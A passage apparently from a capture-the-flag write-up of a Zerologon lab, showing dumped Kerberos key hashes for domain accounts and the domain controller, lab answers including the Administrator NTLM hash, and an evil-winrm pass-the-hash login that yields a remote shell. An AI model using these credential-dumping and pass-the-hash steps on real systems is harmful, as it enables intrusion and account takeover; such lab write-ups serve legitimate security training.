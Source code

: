 ```
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up...
```

What is the Local Administrator's NTLM hash?
*3f3ef89114fb063e3d7fc23c20f65568*

How many Domain Admin accounts are there?
*2* (All Domain Admin accounts are prefixed with A-)

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.212.36

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine             

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                               

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/16/2020   4:52 PM                3D Objects
d-r---        9/16/2020   4:52 PM                Contacts
d-r---        10/7/2020   5:13 PM                Desktop
d-r---        9/16/2020   4:52 PM                Documents
d-r---        9/16/2020   4:52 PM                Downloads
d-r---        9/16/2020   4:52 PM                Favorites
d-r---        9/16/2020   4:52 PM                Links
d-r---        9/16/2020   4:52 PM                Music
d-r---        9/16/2020   4:52 PM                Pictures
d-r---        9/16/2020   4:52 PM                Saved Games
d-r---        9/16/2020   4:52 PM                Searches
d-r---        9/16/2020   4:52 PM                Videos

```